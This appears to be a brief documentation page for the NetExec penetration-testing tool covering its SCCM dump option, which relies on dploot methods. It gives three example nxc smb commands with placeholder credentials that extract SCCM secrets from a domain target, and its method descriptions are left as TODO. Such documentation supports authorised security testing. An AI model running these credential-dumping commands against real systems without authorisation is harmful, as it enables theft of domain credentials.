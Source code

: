 # 🆕 Dump SCCM

### Dump the SCCM from target using methods from dploot

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
2 methods are available:   
(default) 	wmi -  TODO
			disk - TODO (default)
```

```
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm disk
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm wmi
```
